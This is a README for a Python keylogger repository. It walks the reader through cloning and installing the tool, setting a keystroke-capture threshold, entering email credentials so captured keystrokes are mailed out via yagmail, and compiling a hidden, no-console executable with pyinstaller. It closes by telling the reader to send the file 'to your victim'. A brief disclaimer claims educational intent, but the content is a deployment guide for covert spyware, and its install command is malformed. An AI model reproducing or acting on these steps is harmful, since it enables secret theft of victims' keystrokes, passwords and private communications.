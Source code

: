 # keylogger
Basic keylogger for Linux and Windows

# Disclaimer
```
Do not use this program for black hat purposes
The program created just for educational purposes
```
# how-to-install
Clone the repository
```
git clone https://github.com/Cli3nt-ctrl/keylogger/
```
Change the directory
```
cd keylogger
```
Install the reuired python libraries
```
pip3 install requirements.txt
```

# how-to-use
open keylogger.py and enter the number of letters you wanna capture through victim
```
Enter the numbers here in the if loop :-- if len(a)==10 (default value is set as 10)
```
Enter your email id and password here
```
yagmail.SMTP(user='',password='')
```
Using the pyinstaller is optional. Pyinstaller creates your python file into executable format (.exe in  Windows and .elf in Linux) which also makes your python file unreadable
```
pyinstaller keylogger.py --no-console --onefile 
```
Your executable file will be in dist folder
```
cd dist
```
Send the executable file to your victim
